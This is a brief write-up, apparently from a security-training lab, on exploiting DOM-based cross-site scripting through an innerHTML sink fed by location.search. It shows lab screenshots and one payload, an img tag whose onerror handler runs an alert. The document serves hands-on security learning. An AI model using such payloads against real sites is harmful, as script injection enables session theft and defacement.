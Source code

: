 # Lab: DOM XSS in innerHTML sink using source location.search

URL: https://0a8f00620393d837801f0d2000c00055.web-security-academy.net/

![](./Images/img1.png)

## Testing the fields:

![](./Images/img2.png)

## Exploitation:

![](./Images/img3.png)

![](./Images/img4.png)

Payload:

```
<img src=X onerror=alert("XSS")>
```